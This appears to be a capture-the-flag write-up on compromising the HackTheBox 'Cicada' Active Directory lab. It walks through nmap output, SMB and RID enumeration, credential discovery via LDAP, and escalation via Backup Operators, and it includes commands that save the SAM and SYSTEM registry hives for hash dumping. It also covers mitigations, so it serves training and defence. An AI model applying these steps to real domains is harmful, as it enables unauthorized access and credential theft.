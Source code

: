 ```yaml
---
title: "HackTheBox - Cicada"
permalink: /CTFs/HTB-Cicada/
date: 2024-10-13
categories: [HackTheBox]
tags: [HackTheBox, Active Directory, LDAP, SMB]
toc: true
toc_sticky: true
toc_label: "On This Page"
# toc_icon: "biohazard"
classes: wide
header:
  teaser: /assets/img/CTFs/Cicada/background.png
  overlay_image: /assets/img/CTFs/Cicada/background.png
  overlay_filter: 0.8
# ribbon: DarkSlateBlue
---
```

I demonstrate how I pwned Cicada on HackTheBox. 

This box mostly emphasizes two important skills:
- Enumrating Active Directory's RIDs for potential list of valid usernames
- Abusing the backup operators group

---
first nmap scan:

```bash
~/htb/cicada$ nmap -sC -sV -Pn -vv -p- -oN scan.nmap 10.10.11.35

# Nmap 7.94SVN scan initiated Sun Oct 13 00:57:02 2024 as: nmap -sC -sV -Pn -T4 -v -oN scan.nmap 10.10.11.35
Increasing send delay for 10.10.11.35 from 0 to 5 due to 11 out of 25 dropped probes since last increase.
Host is up (0.094s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-08 02:15:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
55209/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-10-08T02:16:41
|_  start_date: N/A
|_clock-skew: 7h00m00s
```
So it is pure AD enum, after adding `cicada.htb` to hosts file I get to work

## SMB Enumeration
I started with enumerating the SMB shares with null session:
![image](/assets/img/CTFs/Cicada/smb1.png)

HR share was public so I connected to it and found `Notice from HR.txt`
![image](/assets/img/CTFs/Cicada/smb2.png)

After downloading and reading it I had a Password:
![image](/assets/img/CTFs/Cicada/backup_script.png)


I need to obtain a user list in order to validate this password, so I attempted kerbrute, but it was slow and didn't yield many results.
![image](/assets/img/CTFs/Cicada/kerbrute.png)


So we can enumerate users by RIDs if we had access to. We can use `impacket-lookupsid`, `Metasploit` or there is a cool switch I discovered earlier in [NetExec](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-users-by-bruteforcing-rid):
![image](/assets/img/CTFs/Cicada/rid_enum.png)

with some bash we can extract valid users into a file to check with the obtained pass
```bash
cat users.txt | cut -d ':' -f 2 | cut -d '\' -f 2 | cut -d ' ' -f 1 | uniq >> potential_users.txt
```

And we got a hit on `mark.wrightson`
![image](/assets/img/CTFs/Cicada/user-pass_hit.png)

Before moving forward, let's review what RIDs are.

## RID Bruteforcing
In Windows, every object, including users and groups, is identified by a Security Identifier (SID). A SID is composed of:
- A domain identifier that stays the same for all users within the domain.
- A RID that uniquely identifies a user or group within the domain.

Example Breakdown:\
SID: `S-1-5-21-3623811015-3361044348-30300820-500`
- Domain SID: `S-1-5-21-3623811015-3361044348-30300820`
- RID: 500 (the built-in Administrator account)

So SID = Domain Identifier + RID.

Regular user accounts generally start at 1000. So what any of the above tools do is increment the RID by one to get the associated user.

### Why This Works?

Windows doesn’t necessarily block the querying of SIDs, and if the system doesn’t have proper restrictions, it will return details about valid users based on the provided RIDs.

### Mitigation
To mitigate RID enumeration attacks:
- Accounts: Guest account status: `Disabled`
- Network access: Let Everyone permissions apply to anonymous users: `Disabled`
- Network access: Restrict anonymous access to Named Pipes and Shares: `Enabled`
- Use group policies to restrict SID enumeration by untrusted users.

![image](/assets/img/CTFs/Cicada/mitigation.png)
As shown it is disabled by default.

Back to pwning..

---

## LDAP Enumeration
Now I have a valid user and password. After alot of enumerating I queried a ldap query to see users description cause it usually contains passwords.\
So I got another valid user and pass:
![image](/assets/img/CTFs/Cicada/ldap-search.png)


I discovered that this user did have access to brand-new SMB share. It is DEV, which I wasn't previously able to access it.
![image](/assets/img/CTFs/Cicada/read_dev.png)

It included a script file, which I downloaded and looked at to discover  another user with her password.
![image](/assets/img/CTFs/Cicada/emily_creds.png)

WINRMing to get the first flag
![image](/assets/img/CTFs/Cicada/user_flag.png)

---
## PrivEsc
First thing I did was checking her groups:
![image](/assets/img/CTFs/Cicada/emily_privs.png)


I leveraged her membership in the Backup Operators group to extract the SAM and system registry files.
```powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
Used `Impacket-secretsdump` to dump admin hash
![image](/assets/img/CTFs/Cicada/admin_hash.png)


WINRMing using the admin hash to get the root flag
![image](/assets/img/CTFs/Cicada/admin_pass.png)


Happy pwning!